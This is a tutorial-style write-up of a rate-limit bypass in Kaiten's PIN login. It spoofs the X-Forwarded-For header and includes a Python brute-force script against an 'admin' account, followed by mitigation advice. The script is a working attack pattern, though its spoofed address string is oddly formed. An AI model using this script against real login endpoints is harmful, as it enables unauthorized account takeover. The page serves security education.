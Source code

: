 ```yaml
---
title: Real Example 1
---
```


## Kaiten

API authentication is a process that checks whether users are allowed to access data or features of an application. It helps protect sensitive information and functions by making sure only authorized users can use the API. If the authentication process is weak or done improperly, malicious users can exploit this vulnerability to gain unauthorized access.

To fully understand the result of weak or improper authentication, we will cover a real example found in Kaiten. This is a project management tool designed to streamline workflows and improve team collaboration. In this real example, we will cover a rate limit bypass to learn how weak security mechanisms can create opportunities for attackers to exploit.

## Rate Limiting

Rate limiting is a security measure designed to control the number of requests a client can make within a specific time frame. This mechanism helps prevent abuse, like brute force attacks, by limiting client requests.

In Kaiten, their rate limiter identified and tracked client requests using their IP address. This mechanism is applied across Kaiten's API to protect various endpoints. By monitoring the number requests originating from a specific IP address, the rate limiter ensures that clients cannot send excess requests.

## Rate Limit Bypass

In this real example, Kaiten tried to secure their PIN code authentication mechanism with rate limiting. They understood that by limiting the number of attempts, they can prevent attackers from guessing the correct PIN code.

Their rate limiter restricted the number of attempts from a single client by using their IP address to identify and track requests. However, they failed to account for the `X-Forwarded-For` header, which is commonly used by proxies to specify the original IP address of the client making the request.

This oversight meant that attacks could manipulate the header to spoof different IP addresses, effectively bypassing the rate limiter. By automating this process with a script, attackers could try all possible combinations of the 6-digit PIN to increase their chance of gaining unauthorized access.

## Proof of Concept

To bypass the rate limiter, we need to identify the endpoints where PIN and login requests are processed. In this case it is the `/pin` and `/login?redirectPath=%2F` endpoints. We also need to prepare all PIN codes.

```python
pin_url = "https://kaiten.example.com/pin"
login_url = "https://kaiten.example.com/login?redirectPath=%2F"

pin_list = [f"{i:06}" for i in range(1000000)]  # Generates all 6-digit PINs
```

After we have identified the endpoints and created a list of PIN codes, the next step is to request a PIN code so we perform a brute force attack. This will be a POST request to the login endpoint with the target username.

```python
def request_pin():
    data = {"username": "admin"}
    response = requests.post(login_url, json=data)
    
    if "not found" in response.text:
        print("User does not exist.")
        sys.exit(1)
```

The last step is to write the main logic to perform a brute force attack. We will use a `for` loop to go over each PIN code, sending each attempt to the pin endpoint. We spoof our IP address using the current PIN code.

```python
def brute_force_pin():
    for pin in pin_list:
        # 1. Spoof the IP address using the current PIN
        headers = {
            "X-Forwarded-For": f"127.0.0.{pin}"
        }

        data = {
            "username": "admin",
            "pin": pin
        }

        # 2. Send the POST request
        response = requests.post(pin_url, headers=headers, json=data)

        # 3. Check the response
        if response.status_code in range(200, 300):
            print(f"Valid PIN found: {pin}")
            print(response.json())
            sys.exit(0)
```

This loop automates the brute force attack by cycling through the PIN code list, sending each attempt to the pin endpoint. At the end, we include a delay before we can request a new PIN if our brute force attack failed.

```python
while True:
    request_pin()
    brute_force_pin()
    print("No valid PIN found, restarting the process...")
    time.sleep(300)  # Pause for 5 minutes before retrying
```

In total, we can try about 150 requests per second. Kaiten keeps a PIN code valid for only 5 minutes, but before the PIN expires we can try 45,000 times to guess the PIN code. Within 4 hours we will likely guess the correct PIN code. From this, we can learn that rate limiting should not only restrict based on the IP address but also consider other factors to make it effective.

## Mitigations

To prevent attacks that exploit rate limiting flaws, we should implement additional security measures that address different brute force strategies.

**Account Lockouts:** Introduce temporary account lockouts after a number of failed login attempts. For example, locking an account for 15 minutes after 5 failures can discourage brute force attacks and limit automated scripts.

**CAPTCHA Challenges:** Use CAPTCHA challenges on login pages, especially after repeated failed attempts. This introduces a manual step that disrupts automated attacks while allowing users to continue accessing their accounts.

The real example found in Kaiten demonstrates how rate limiting, while useful, must be implemented as part of a larger security framework to effectively prevent attacks. Rate limiting alone remains vulnerable to exploits by persistent and well-prepared attackers.

By including other security measures, we can design a strong and secure authentication process to protect the information and functions of our API.
